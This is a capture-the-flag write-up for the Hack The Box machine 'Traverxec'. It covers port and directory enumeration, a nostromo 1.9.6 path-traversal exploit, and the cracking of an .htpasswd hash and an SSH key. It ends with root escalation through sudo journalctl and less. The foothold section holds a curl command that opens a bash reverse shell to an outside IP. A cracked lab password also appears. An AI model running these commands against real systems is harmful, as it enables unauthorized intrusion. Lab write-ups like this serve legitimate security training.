










# Traverxec
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.165
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 19:35 BST
Nmap scan report for 10.10.10.165 (10.10.10.165)
Host is up (0.096s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
|_  256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.10 seconds
```
- Web server


- `gobuster`

```
└─$ gobuster dir -u http://10.10.10.165 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.165
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/27 19:39:09 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 314] [--> http://10.10.10.165/img/]
/icons                (Status: 301) [Size: 314] [--> http://10.10.10.165/icons/]
/css                  (Status: 301) [Size: 314] [--> http://10.10.10.165/css/]
/lib                  (Status: 301) [Size: 314] [--> http://10.10.10.165/lib/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.10.165/js/]
```

## Foothold
- From `nmap` results we see `nostromo 1.9.6`
  - Check `searchsploit`





- We can test `poc`


- It works
  - Let's get a reverse shell
  - `curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.7/6666 0>&1"'`


## User
- Let's enumerate with `linpeas`
  - Found `.htpasswd` and `nhttpd.conf`
  - Starts hashcat, since it will take a while to crack
    - `echo 'david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' > david.hash`
    - `hashcat -m 500 david.hash /usr/share/wordlists/rockyou.txt --username`
    - Resulted in `david:Nowonly4me`
    - `su` doesn't work




- In `nhttpd.conf` we can see `homedirs` parameter set to `/home`
  - According to [docs](http://www.nazgul.ch/dev/nostromo_man.html), it means that 



- So we can visit `http://10.10.10.165/~david/`


- From the config file we also saw that `homedirs_public` is set to`public_www`
  - Which means that there is `public_www` folder inside `/home/david` which probably can be accessed as `www-data` user



- I tried sending file via `nc` but it didn't work
  - Then I tried downloading it using `wget` since we have creds for `david` and config states that it uses `.htpasswd` for authentification


- After downloading `tar` file, we see that it contains david's key
  - Which is protected, so let's crack it with `john`



- Let's connect using the key



## Root
- Let's enumerate for privesc again
  - We see `bin` folder with script inside





- We see that `journalctl` is executed as `sudo`
  - Thus `david` is a `sudoer`
  - Let's check `GTFOBins`
  


- So the trick here was that we need to shrink the terminal, so that `journalctl` will pipe stdout to `less`
  - Based on script we have 5 lines
  - We shrink terminal to less than 5
  - Output from the `journalctl` will be sent to `less` as root
  - And we can type `!/bin/bash` to get us a root shell




